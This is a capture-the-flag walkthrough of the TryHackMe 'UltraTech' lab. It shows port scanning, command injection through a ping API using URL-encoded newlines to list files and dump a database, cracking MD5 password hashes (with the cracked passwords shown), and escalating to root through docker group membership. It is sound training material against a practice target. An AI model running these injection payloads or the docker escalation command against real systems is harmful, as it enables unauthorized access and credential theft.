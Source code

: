 # Recon

We start with a nmap scan on the target. 
```sh
sudo nmap -sV -sC -p- 10.10.125.217 -T4  
```

That shows us that several ports are open.
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/UltraTech/assets/1.png">
<br>
# Port 21
I tried connecting anonymously on the FTP server but without any luck.

<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/UltraTech/assets/7.png">


I then conduct a directory scan with gobuster on both the services:
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/UltraTech/assets/6.png">
We find some interesting folders. Let's start off with port 31331.
<br>
# Port 31331
There's an Apache webserver running on this port. After visiting the page we discover possible usernames:

```sh
John McFamicom | r00t
Francois LeMytho | P4c0
Alvaro Squalo | Sq4l
```
We read the robots.txt and find a reference to a textfile: /utech_sitemap.txt
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/UltraTech/assets/3.png">


We also find a reference to a api that runs on port 8081. There seems to be a function which can be used to ping a host.
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/UltraTech/assets/4.png">
<br>
# Port 8081

> Method: Ideally we can abuse this function to do some code injection. We'll try to attempt it first with a command like ls and if proven successful we will expand this with downloading and executing a reverse shell on the host  

I tampered a bit with the url but had problems executing additional commands. I learned that i could add a newline character to add new command on a new line. We can use '%0A' for this.

I finally have a list command:
```sh
http://10.10.125.217:8081/ping?ip=localhost%0Als
```
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/UltraTech/assets/5.png">

We discover a sqlite database. Let's see what's inside:
```sh
http://10.10.125.217:8081/ping?ip=localhost%0Acat%20utech.db.sqlite
```

We found two hashes:
```
r00t:f357a0c52799563c7c7b76c1e7543a32
admin:0d0ea5111e3c1def594c1684e3b9be84
```

Running them through hashid tells us that they're MD5 hashes. Let's fire up hashcat in an attempt to crack them.
```sh
hashcat -a 0 -m 0 hashes /usr/share/wordlists/rockyou.txt -w 3 -O
```
```
f357a0c52799563c7c7b76c1e7543a32:n100906         
0d0ea5111e3c1def594c1684e3b9be84:mrsheafy  
```
We have succesfully cracked the hashes and will now try to connect with SSH.
<br>
# Initial foothold and privilege escalation
It looks like we don't further need to try to use command injection as we can successfully login using the r00t account. I logged in and started looking for ways to escalate our privileges. I searched for SUID's, sudo permissions and groups. Nothing stand out here except the group docker which has known vulnerabilities.

A search on GTFOBins tells us we can abuse this to escalate our privileges:

```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```
We now have a root shell.

<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/UltraTech/assets/8.png">



